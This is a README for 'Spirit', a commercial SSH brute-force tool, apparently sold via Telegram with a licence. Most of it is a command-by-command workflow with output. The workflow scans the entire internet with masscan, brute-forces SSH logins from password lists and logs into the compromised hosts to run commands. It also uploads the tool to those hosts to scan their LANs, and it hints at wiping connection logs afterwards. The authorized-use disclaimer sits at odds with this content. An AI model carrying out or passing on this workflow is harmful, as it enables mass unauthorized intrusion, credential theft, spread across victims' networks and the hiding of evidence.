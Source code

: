 # Spirit - Network Pentest Tools
> We believe in making the internet a safe environment where security is taken seriously as a priority and forcing out of the market bad actors like the admins allowing password authentication over such a critical cog of our infrastructure. Spirit is designed to root out these weeds (pun intended).

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)
```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```
> NOTE: Plenty of fake Spirit clones are being distributed, make sure to verify you're running the original by checksum: `$ sha256sum -c spirit.sum`

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Local network demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Quick Start
```bash
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
tar xvf spirit.tgz
./spirit --help

sudo apt install masscan
cp `which masscan` .

# automatic random scanning
./spirit autobrute --ports 22
```

## Autobrute with zones
```bash
# Create zone.lst containing IP addresses in CIDR notation
$ cat >zone.lst<< EOF
192.168.0.0/16
172.16.0.0/12
10.0.0.0/8
EOF

# autobrute will generate collision-free(non-repeating) random ports
# scan and brute them over and over -- forever!
./spirit autobrute
```


## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/spiritNPT)

## Upgrade Spirit automatically
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
Spirit NPT (v1.30) upgrade by 24 Mar 24 00:00 UTC
HINT: Use `./spirit zap` to clean connection logs after you login via SSH
rlimit soft [1048576] hard [1048576]
INFO loaded b.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
INFO randomized hosts
INFO block [true]
INFO timeout [5s]
INFO threads [1024]
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
Results
 |- found.ssh # Prepared SSH command
 |- found.login # Successful USER:PASS combinations
 |- found.lst # Syntax for autossh tool
 |- found.errors # SSH connection error statistics
Hosts[26803] Bruted[4000] Blocked[19803] Found[3000]

# If you want to go Faster try blocking bad hosts
./spirit brute --block=true

# Connect to all your found hosts automatically & run commands.
$ ./spirit autossh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit autossh --upload ./spirit --command '/tmp/spirit scan --lan'
```

## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy

Payment-flow Support @ https://t.me/spiritNPT
Pricing model: $1 / Server / Day

┃ How many servers?> 3

┃ How many days?> 30

┃ Would you like 10% off using a referral code?
┃
┃   Yes     No
```

> if you encounter any issues w/ the payment, please reach out to us on [Telegram](https://t.me/spiritNPT) or open an [issue](https://github.com/theaog/spirit/issues)

# Support our development

## Help us spread the word about Spirit!
Refer Spirit in your community or work environment and earn up to 30% in Referral Fees. \
Start here: `$ ./spirit partner` || generate your Referral Code which grants 10% off on any Spirit plan.

## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
